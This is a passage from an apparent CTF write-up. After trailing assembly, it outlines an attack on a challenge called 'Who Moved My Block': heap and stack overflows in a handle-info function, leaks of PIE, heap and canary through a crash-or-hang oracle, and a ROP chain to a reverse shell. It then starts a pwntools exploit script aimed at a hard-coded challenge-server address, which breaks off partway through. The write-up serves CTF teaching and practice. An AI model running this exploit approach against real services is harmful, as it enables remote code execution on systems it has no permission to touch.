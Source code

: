 ```
subi              r3, r8, 4
movi              r2, 256
ld.w              r0, (r3, 0)
movi              r7, 63
trap              0

lsli              r0, r0, 0
subi              r3, r8, 276
movi              r2, 4096
mov              r1, r3
movi              r0, 4
movi              r7, 64
trap              0
```

### Who Moved My Block

The solution is similar to CVE-2018-1160, Metatalk in Hitcon 2021.
1. Read the source code and find the vulnerability.
2. I find two vulnerabilities one Heap-Overflow and one Stack-Overflowin function handle-info
3. The heap-overflow is hard to use, cuz we need to construct the heap Fengshui carefully.
4. While the Stack-Overflow one is easy to use, we could get the addresses of pie/heap/canary by judging the statement of connection (crash or hang).
5. ROP to get a reversed shell
Exp:

```python
from code import interact
from distutils.dir_util import copy_tree
from re import sub
from pwn import *
import subprocess
#context.log_level = 'debug'
context.arch='amd64'
DEBUG = 0
if(DEBUG):
    ip = "0.0.0.0"
    port = 6666
else:
    ip = "47.242.113.232"
    port =49265
p = None
ru = lambda x: p.recvuntil(x)
rl = lambda  : p.recvline()
ra = lambda  : p.recvall()
rv = lambda x: p.recv(x)
sn = lambda x: p.send(x)
sl = lambda x: p.sendline(x) 
sa = lambda x,y: p.sendafter(x,y) 
def pow():
    ru('sha256("')
    tmp = ru('"')[:-1].decode()
    c1 = "gcc ./pow.c -lcrypto -o ppp".split(' ')
    c2 = f"./ppp {tmp}".split(' ')
    c3 = "rm ./ppp".split(' ')
    subp = subprocess.Popen(c1)
    subp.wait()
    print(c2)
    subp = subprocess.Popen(c2)
    res,_ = subp.communicate()
    subp = subprocess.Popen(c3)
    subp.wait()
    print(res,_)
def anum(n):
```